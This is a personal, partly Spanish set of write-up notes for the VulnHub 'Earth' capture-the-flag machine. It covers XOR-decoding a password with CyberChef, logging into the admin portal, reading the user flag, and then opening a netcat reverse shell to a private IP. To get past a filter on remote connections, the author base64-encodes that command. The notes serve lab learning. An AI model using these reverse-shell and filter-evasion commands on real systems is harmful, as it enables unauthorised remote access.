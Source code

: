 The key of encription aparently is on testdata.txt and the "encription type is in XOR" so now we are going to use a new tool #cyberchef

https://gchq.github.io/CyberChef/ (the website of use)

https://www.youtube.com/watch?v=TMt7BlgpL3A

Aparently there are various steps on this part ... and the mesage of testdata.txt its a key... and it is not strange message .. it is just a normal message.. we must put UTF-8 AND XOR in the input of bottom .. that we take from the left .. and in the top "from hex"..

![[Cibersecurity/Virtual Machines/Vuln Hub Machines/Planets-earth/IMAGES/encriptacion.png]]

and now we need to copy paste  them one by one 

![[copypaste.png]]

```
earthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimat
```

we get this on the third one

*terra used as username for admin portal.*
and the password maybe is 
earthclimatechangebad4humans

## FOOTHOLD ##

when we log in we have a CLI command input ... (es como una consola remota (??), somos "apache" cuando ponemos whoami)

ls /var/earth_web 

userflag.txt is here

cat /var/earth_web/user_flag.txt

[user_flag_3353b67d6437f07ba7d34afd7d2fc27d]

#remoteshell 
we are going to put this on the CLI command input to get a reverse shell
nc -e /bin/bash 192.168.100.4 4444

and we need to put nc -lvnp 4444 and start listening first
"WE HAVE A WARNING, REMOTE CONNECTIONS ARE FORBIDDEN"
he say that we can bypas this converting it to an decimal notation
 or encoding int on base64format
 #base64

MY IP is with this
```c
 cds@cds:~$ echo nc -e /bin/bash 192.168.100.4 4444 | base64
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAwLjQgNDQ0NAo=
```

